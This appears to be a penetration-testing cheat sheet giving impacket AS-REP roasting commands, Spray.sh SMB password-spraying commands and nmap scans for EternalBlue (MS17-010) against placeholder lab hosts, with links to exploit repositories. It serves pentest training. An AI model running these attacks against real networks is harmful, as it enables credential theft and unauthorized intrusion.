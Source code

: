 > ### _AS-REP Roasting_
````
impacket-GetNPUsers -format <format> PEPE.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.x -outputfile hashes.txt #format Example: john

impacket-GetADUsers -all -dc-ip 10.10.10.x PEPE.LOCAL/username
````

> ## _Spraying The Forest_

- __Warning Password Spraying__
* __https://docs.microsoft.com/en-us/security/compass/incident-response-playbook-password-spray__
> __When you decide to do a Spraying Attack, you should keep in mind that the policies lock accounts when you reach a certain number of brute force attempts.__

----

----

> ### _Spray_
* __https://github.com/Greenwolf/Spray__

````
/spray.sh -smb ip users-file creds-file <attempts> <minutes> pepe.local

/spray.sh -smb 10.10.10.x users creds 3 20 pepe.local
````

> ## _EternalBlue_
* __https://www.elladodelmal.com/2020/07/modulo-de-eternalblue-doublepulsar-en.html__
* __https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010__
* __https://support.redborder.com/hc/en-us/articles/360000999778-Use-Case-1-Eternalblue-Attack__
* __https://support.redborder.com/hc/en-us/articles/360000999878-Use-case-2__
* __https://es.wikipedia.org/wiki/EternalBlue__
* __https://www.avast.com/c-eternalblue__
* __https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/__
* __https://research.checkpoint.com/2017/eternalblue-everything-know/__

----

* * __https://github.com/worawit/MS17-010__
* * __https://github.com/3ndG4me/AutoBlue-MS17-010__
* * __Manual-Recon__
* * __zzz Exploit__
* * __AutoBlue__
* * __Metasploit-Recon__
* * __Metasploit-Exploit__

>> _Manual-Recon_
````
nmap --script smb-vuln-ms17-010 -p445 -Pn -v -n 10.10.10.x -oN file-name

nmap --script "vuln" -p445 -Pn -v -n 10.10.10.x -oN file-name

nmap --script "vuln and safe" -p445 -Pn -v -n 10.10.10.x -oN file-name

nmap -g 443 -f -sS --script "vuln and safe" -Pn -p445 -v -n 10.10.10.x -oN file-name

nmap -g 443 -f -sS --min-rate 1000 --script "vuln and safe" -p445 -Pn -v -n 10.10.10.x -oN file-name
````
